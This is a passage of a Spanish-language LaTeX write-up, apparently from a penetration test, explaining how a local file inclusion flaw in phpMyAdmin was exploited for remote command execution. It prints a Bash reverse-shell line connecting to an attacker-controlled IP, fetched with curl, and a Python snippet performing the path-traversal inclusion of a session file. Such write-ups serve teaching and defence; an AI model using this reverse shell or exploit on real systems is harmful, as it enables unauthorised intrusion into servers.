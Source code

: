 \documentclass[a4paper]{article} %
\begin{document}
   Una vez ejecutado e inyectando un comando que permitiera ingresar al sistema, se logró ganar acceso al servidor:
 
  \vspace{0.2cm}
  \begin{figure}[h]
    \centering 
    \setlength{\fboxrule}{0.8pt}  
    \caption{Ganando acceo al servidor a trvés de la explotación del PhpMyAdmin.}
  \end{figure}

  En este caso, se está ejecutando un comando que mediante por '\textbf{curl}', interprete un script en Bash el cual disponse del 
  siguiente contenido: 

  \vspace{0.3cm}
  \begin{lstlisting}[language=Bash, caption=Script en Bash encargado de entablar la conexión]
  #!/bin/bash

  bash -i >& /dev/tcp/192.168.1.132/443 0>&1 
  \end{lstlisting}
  Este script está alojado en el servidor del atacante, evitando de esta forma dejar archivos residuales en el servidor 
  víctima. Una vez ejecutado el comando, el atacante gana acceso al servidor, teniendo control de la máquina en este 
  caso como el usuario '\textbf{apache}'.

  Tal y como se puede apreciar en el script, pincipalmente lo que sucede es que el script se aprovecha de una vulnerabilidad 
  de tipo \textbf{LFI} existente en esta versión de PhpMyAdmin para conseguir la ejecución remota de comandos: 
  
  \vspace{0.3cm} 
  \begin{lstlisting}[language=Python, caption=Porción del código correspondiente a la explotación del LFI]
  session_id = cookies.get_direct()['phpMyAdmin']
  url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{}".format(session_id)
  r=requests.get(url3, cookies = cookies)

  \end{lstlisting}

  \begin{definicion}
    LFI (\textbf{Local File Inclusión}) es una vulnerabilidad de seguridad en aplicaciones web que permite que un atacante pueda acceder
    a archivos locales del servidor a través de la inclusión de archivos locales en una página web.
  \end{definicion}
  
\end{document}
